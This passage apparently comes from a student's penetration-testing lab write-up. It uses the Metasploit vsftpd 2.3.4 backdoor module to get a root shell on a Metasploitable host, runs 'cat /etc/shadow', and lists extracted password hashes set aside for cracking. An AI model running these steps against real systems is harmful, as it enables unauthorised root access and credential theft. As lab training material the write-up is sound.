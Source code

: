 ```bash
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.
```
The **RPORT** (21) matched the FTP port that was open in target.  

Assigned the **RHOSTS** variable to the address of the target machine:
```
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > setg RHOSTS 192.168.66.4
RHOSTS => 192.168.66.4
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > 
```

**Now i was ready to roll and attack with `exploit`!**
```bash
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit

[*] 192.168.66.4:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.66.4:21 - USER: 331 Please specify the password.
[+] 192.168.66.4:21 - Backdoor service has been spawned, handling...
[+] 192.168.66.4:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (192.168.66.2:44401 -> 192.168.66.4:6200) at 2023-03-27 09:07:28 -0400
```

As it seemed successful, i checked:
```bash
whoami
root
id
uid=0(root) gid=0(root)
```
Rooootz achieved!

I took the password hashes from `/etc/shadow` to go so they could be tried to crack with `hashcat` or `john` later in peace!
```bash
cat /etc/shadow
```

---
### n) Vapaaehtoinen: Murtaudu johonkin toiseen Metasploitablen palveluun.

For this, as it was an optional task, i did a quick password cracking practice.  
As i had the shadow file with hashes, i cleaned everything and pasted only the hashes to separate `password_hashes` file.
```bash
┌──(kali㉿kali)-[~/firstday]
└─$ cat password_hashes 
$1$/avpfBJ1$x0z8w5UF9Iv./DR9E9Lid.
$1$fUX6BPOt$Miyc3UpOzQJqz4s5wFD9l0
$1$f2ZVMS4K$R9XkI.CmLdHhdUE3X9jqP0
$1$XN10Zj2c$Rt/zzCW3mLtUWA.ihZjA5/
$1$Rw35ik.x$MgQgZUuO5pAoUvfJhfcYe/
$1$HESu9xrH$k.o3G93DGoXIiQKkPmUgZ0
$1$kR3ue7JZ$7GxELDupr5Ohp6cjZ3Bu//

```

